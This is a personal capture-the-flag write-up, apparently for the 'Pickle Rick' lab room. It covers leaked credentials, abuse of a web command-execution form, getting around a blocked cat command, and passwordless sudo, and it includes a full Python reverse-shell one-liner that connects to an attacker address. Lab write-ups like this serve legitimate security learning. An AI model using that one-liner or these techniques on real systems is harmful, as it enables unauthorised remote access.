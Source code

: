 sunday	-	13 june 2021


ip:	`10.10.140.229`

*	found from source code, username: `R1ckRul3s`

*	found from /robots.txt,  `Wubbalubbadubdub`	(basically password)

>	`/assets` has some extra file/imgs/gifs so there should be more webpages. 
>	one file's name was 'portal.png' so there must be a portal. look for portal. 
>	got **portal.php**.


*	above were credentials to login to `/portal.php`.

### portal.php

found a form, which takes command and executes it.

```sh
$ cd ..
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

1.	first ingredient:	`mr. meeseek hair`
	*	found at `10.10.140.229/Sup3rS3cretPickl3Ingred.txt`

*	`/clue.txt` says 'Look around the file system for the other ingredient.', means second ingredient can also be found thru command form (maybe)

*	by looking at the source code of `/portal.php`, there was this excrypted string: 
	```
	Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
	```

	*	so i tried to decode it, using **base64 online decrypter** (https://www.base64decode.org/), 
	*	it was encrypted several times so atfer decrypting, i found that it was a rabbit-hole. 
	*	NOOO i mean seriously it was `rabbit hole` 😆 



2.	get a reverse shell, to access the machine, therefore, one-liner reverse shell:
	```sh
	$	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.102.216",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	```

	*	i was trying to open a reverse shell, but it didnt worked for me. 

	*	so after reading another write-up. i found that we can move within directories in one command and check if flag's in it using another command!

		```sh
		$	ls /home/rick
		```

		*	here's our second ingredient, but we can see it right! coz `cat` command is blocked. Well there's another command called `less` which seem to work just like `cat`.

	*	hense, second ingredient is `1 jerry tear`


3.	now for third ingredient, we must need a `sudo` powers coz it must be related to **root** user and shit!

	*	after checking current user perms, it seems like we can use `sudo` with any command **without** password. Hell yeahHHhhh 🔥 But certainly bad security decision!

	*	Let's check `/root` folder's content.

	*	there's some file called `3rd.txt` that must be it :)

	*	Therefore, third ingredient is `fleeb juice`

##	Hense, room complete!

>	ps:	man it took me three whole days of procarsinating to complete this room! and still i didn't use reverse shell :(






